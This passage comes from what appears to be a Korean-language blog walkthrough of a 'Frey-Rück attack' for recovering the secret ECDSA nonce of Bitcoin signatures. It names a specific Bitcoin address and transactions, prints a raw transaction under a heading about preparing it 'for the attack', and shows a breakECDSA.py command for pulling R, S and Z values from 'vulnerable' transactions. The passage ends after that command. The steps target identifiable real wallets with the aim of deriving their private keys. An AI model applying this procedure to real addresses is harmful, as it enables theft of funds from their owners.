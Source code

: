 

<figure class="wp-block-embed"><div class="wp-block-embed__wrapper">
https://btc1.trezor.io/tx/e5bb4aba7dc061059ac163e2dd62b4b025454f5db85e4ec65f45edee97d91393
</div></figure>
</blockquote>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-3.png" alt="비밀 키 &quot;K&quot;(NONCE)를 얻기 위해 Frey-Rück 공격을 구현합니다." class="wp-image-649"/></figure>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-4.png" alt="비밀 키 &quot;K&quot;(NONCE)를 얻기 위해 Frey-Rück 공격을 구현합니다." class="wp-image-651"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2>공격을 위한 RawTX 준비</h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<blockquote class="wp-block-quote">
<p><strong><a href="https://btc1.trezor.io/address/1HYDQRwXbvVYpmDn6kGJ6kjyewvtyz1CL5" target="_blank" rel="noreferrer noopener">1HYDQRwXbvVYpmDn6kGJ6kjyewvtyz1CL5</a></strong></p>



<figure class="wp-block-embed"><div class="wp-block-embed__wrapper">
https://btc1.trezor.io/tx/fed0b3472341788b58798d6a124a4d0c66c86535ae5f640cb7e5ba0e175665fb
</div></figure>
</blockquote>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-17-1024x91.png" alt="비밀 키 &quot;K&quot;(NONCE)를 얻기 위해 Frey-Rück 공격을 구현합니다." class="wp-image-790"/></figure>



<pre class="wp-block-code"><code>RawTX = 010000000128231a6d229f0dbea21477c631fd38d8c87159dc59b917bb822c4f593b5fba8e040000006a47304402203458a4ca3bd23a0e255b6c6f579019b1ca112d0f0e2fe4b9635423b9fbee204d0220445065a0df0007cb92c64c775019fb04cfdeb7e5820f61d6b31a52af6e2d091301210273376122cb37be518f8f47085978fda04eb7ced923b00d055b581b6fc2b179ffffffffff010000000000000000046a02585900000000
</code></pre>



<h2>이제 모든 취약한 트랜잭션에서 모든 R, S, Z 값을 가져와야 합니다.</h2>



<p>breakECDSA.py 스크립트를 사용해봅시다.</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 010000000128231a6d229f0dbea21477c631fd38d8c87159dc59b917bb822c4f593b5fba8e040000006a47304402203458a4ca3bd23a0e255b6c6f579019b1ca112d0f0e2fe4b9635423b9fbee204d0220445065a0df0007cb92c64c775019fb04cfdeb7e5820f61d6b31a52af6e2d091301210273376122cb37be518f8f47085978fda04eb7ced923b00d055b581b6fc2b179ffffffffff010000000000000000046a02585900000000
</code></pre>
